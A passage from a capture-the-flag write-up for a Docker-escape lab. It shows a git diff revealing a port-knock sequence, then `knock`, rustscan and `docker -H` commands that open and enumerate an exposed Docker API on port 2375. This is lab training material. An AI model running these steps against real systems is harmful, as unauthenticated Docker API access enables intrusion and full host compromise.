 ```
-Hey guys,
-
-I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
-
-Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
-
-Cheers,
-
-Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
deleted file mode 100644
index aae8129..0000000
--- a/flag.txt
+++ /dev/null
@@ -1,3 +0,0 @@
-You found the root flag, or did you?
-
-THM{Redacted}
\ No newline at end of file
```

**Found the "root" flag, and some hints!**
```
I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.

Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
```

**Let's `knock` those ports!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# knock $RHOSTS 42 1337 10420 6969 63000
```

**Then, do another `rustscan` to confirm the docker port is opened:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# rustscan --ulimit 5000 -t 2000 --range=1-65535 $RHOSTS -- -sC -sV -oN rustscan/rustscan1.txt
[...]
Open 10.10.16.210:22
Open 10.10.16.210:80
Open 10.10.16.210:2375
[...]
```

It's opened!

**Let's enumerate what containers are there:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# docker -H $RHOSTS:2375 container ls          
CONTAINER ID   IMAGE          COMMAND                  CREATED         STATUS       PORTS                  NAMES
49fe455a9681   frontend       "/docker-entrypoint.…"   21 months ago   Up 2 hours   0.0.0.0:80->80/tcp     dockerescapecompose_frontend_1
4b51f5742aad   exif-api-dev   "./application -Dqua…"   21 months ago   Up 2 hours                          dockerescapecompose_api-dev-backup_1
cb83912607b9   exif-api       "./application -Dqua…"   21 months ago   Up 2 hours   8080/tcp               dockerescapecompose_api_1
548b701caa56   endlessh       "/endlessh -v"           21 months ago   Up 2 hours   0.0.0.0:22->2222/tcp   dockerescapecompose_endlessh_1
```
